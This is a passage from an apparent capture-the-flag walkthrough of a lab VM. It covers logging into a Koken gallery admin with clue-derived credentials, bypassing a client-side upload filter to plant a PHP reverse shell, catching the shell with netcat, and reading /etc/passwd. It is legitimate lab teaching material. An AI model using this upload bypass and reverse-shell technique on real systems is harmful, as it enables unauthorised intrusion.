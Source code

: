 ```bash
Message-ID: <4129F3CA.2020509@dc.edu>
Date: Mon, 20 Jul 2020 11:40:36 -0400
From: Agi Clarence <agi@photographer.com>
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.0.1) Gecko/20020823 Netscape/7.0
X-Accept-Language: en-us, en
MIME-Version: 1.0
To: Daisa Ahomi <daisa@photographer.com>
Subject: To Do - Daisa Website's
Content-Type: text/plain; charset=us-ascii; format=flowed
Content-Transfer-Encoding: 7bit

Hi Daisa!
Your site is ready now.
Don't forget your secret, my babygirl ;)
```
There is a site somewhere, which has a secret. Good to know.

### 3. Find the site
The website on port 80 is pretty bare with not much to go on. It is just a template site with placeholder text. However on the other website on the port 8000 webserver is a Koken gallery instance. By going to http://192.168.34.132:8000/admin, the gallery admin page can be found. Using the clues provided in the file retrieved from SMB, log in with `daisy@photographer.com:babygirl`.

### 4. Get a shell
With access to the gallery backend, there is a facility to upload photos. Some experiemation reveals that the app will filter on non-image extensions. Not ideal but can be bypassed because this check is client-side only. Create a php reverse shell called "rev.jpg", then go to upload the file, intercept the request in burp and change the parameters: "name" and "filename" so the filename is now "rev.php". The Content-Type can be left as `image/jpeg`
  
Once the file is uploaded, click to the file in the front end of the gallery and access the full version to trigger the reverse shell, which is recieved over a netcat listener.
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ nc -lvnp 9999           
listening on [any] 9999 ...
connect to [192.168.34.138] from (UNKNOWN) [192.168.34.132] 42930
Linux photographer 4.15.0-45-generic #48~16.04.1-Ubuntu SMP Tue Jan 29 18:03:48 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 05:28:06 up 38 min,  0 users,  load average: 0.33, 0.65, 0.34
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@photographer:/$
```

### 5. Enumerate from foothold
Check out /etc/passwd:
```bash
www-data@photographer:/usr/bin$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
```